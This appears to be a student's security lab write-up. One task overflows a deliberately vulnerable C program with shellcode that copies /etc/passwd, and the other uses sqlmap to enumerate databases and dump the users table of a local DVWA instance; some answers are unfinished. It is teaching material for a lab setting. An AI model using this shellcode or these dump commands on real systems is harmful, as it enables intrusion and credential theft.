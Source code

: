 # Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```
![alt text](./image/Screenshot2024-10-21093246.png)
output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```
![alt text](Screenshot2024-10-21100741.png)

b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```
![alt text](Screenshot2024-10-21103025.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:
![alt text](Screenshot2024-10-21103822.png)

b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:
![alt text](Screenshot2024-10-21104553.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
